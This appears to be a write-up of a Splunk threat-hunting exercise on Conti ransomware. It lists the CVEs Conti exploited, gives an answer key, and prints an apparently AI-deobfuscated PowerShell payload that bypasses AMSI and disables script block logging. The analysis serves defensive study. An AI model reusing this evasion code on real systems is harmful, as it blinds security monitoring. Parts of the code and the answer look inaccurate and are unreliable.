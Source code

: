 - [CVE-2021-44228 (Log4Shell)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228): Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled
- [CVE-2021-34473](https://nvd.nist.gov/vuln/detail/CVE-2021-34473): Microsoft Exchange Server Remote Code Execution Vulnerability
- [CVE-2021-34523](https://nvd.nist.gov/vuln/detail/CVE-2021-34523):  Microsoft Exchange Server Elevation of Privilege Vulnerability
- [CVE-2021-31207](https://nvd.nist.gov/vuln/detail/CVE-2021-31207): Microsoft Exchange Server Security Feature Bypass Vulnerability
- Firewall exploits ([CVE-2018-13379](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-13379) and [CVE-2018-13374](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-13374))
- Extra source → [Vulnerabilities used by Conti and its affiliates](https://www.tenable.com/blog/contileaks-chats-reveal-over-30-vulnerabilities-used-by-conti-ransomware-affiliates)

Ans: `CVE-2018-13374,CVE-2018-13379,CVE-2020-0796`

### Optional

used this filter

```html
index=* powershell.exe AND NOT 	*splunkd.exe*
```

<img width="1883" height="963" alt="Screenshot 2025-08-03 123309" src="https://github.com/user-attachments/assets/b788eece-226c-4bf9-94e8-840117aee9b3" />

Time: `09/08/2021 03:52:09 PM`

Analyze the payload with AI, and this is the result:

**Deobfuscated Components**

**1. Disabling Script Block Logging**

The script first creates a dictionary and constructs strings to manipulate PowerShell logging settings:

```powershell
$tx = "EnableScriptBlockLogging"
$hVd = "ScriptBlockLogging"
$ck = "EnableScriptBlockInvocationLogging"

# For PowerShell v3+
$aPTe = [Ref].Assembly.GetType("System.Management.Automation.Utils")
$xAz = [Ref].Assembly.GetType("System.Management.Automation.AmdlUtils")

# Disables AMSI (Anti-Malware Scan Interface)
$aPTe.GetField("amsiInitFailed", 'NonPublic,Static').SetValue($null, $true)

# Modifies group policy settings to disable logging
$h5uos = $xAz.GetField('cachedGroupPolicySettings','NonPublic,Static')
if ($h5uos) {
    $jX55K = $h5uos.GetValue($null)
    $jX55K[$hVd][$tx] = 0
    $jX55K[$hVd][$ck] = 0
    $fL.Add($tx,0)
    $fL.Add($ck,0)
    $jX55K['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\'+$hVd] = $fL
} else {
    # Alternative method if above fails
    [Ref].Assembly.GetType("System.Management.Automation.ScriptBlock").GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
}
```
